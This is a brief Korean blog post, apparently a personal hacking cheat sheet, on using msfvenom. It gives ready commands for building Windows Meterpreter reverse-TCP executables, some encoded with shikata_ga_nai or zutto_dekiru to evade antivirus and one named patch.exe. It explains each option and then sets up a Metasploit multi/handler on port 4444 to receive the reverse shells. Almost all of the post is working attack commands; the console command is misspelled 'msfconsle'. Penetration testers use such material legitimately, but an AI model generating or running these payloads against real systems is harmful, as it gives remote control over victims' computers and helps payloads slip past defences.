 ```yaml
---
emoji: 🔧
title: msfvenom 사용법
date: '2025-04-01 12:00:00'
author: 양원준
tags: 블로그 github-pages gatsby
categories: hacking
---
```


## 📌 msfvenom 사용법
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=(공격자ip) lport=(default=4444) -f exe -e x64/zutto_dekiru -i 3 -o /root/patch.exe

```
> -p : 페이로드 옵션을 설정    
 -o : 파일 경로와 파일명 지정    
 -e : 인코딩     
 -f : 파일 형식
 -a : 아키텍쳐     
 --platform : 플랫폼 설정\
 -i : 인코딩 횟수

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp or windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -

```toc
```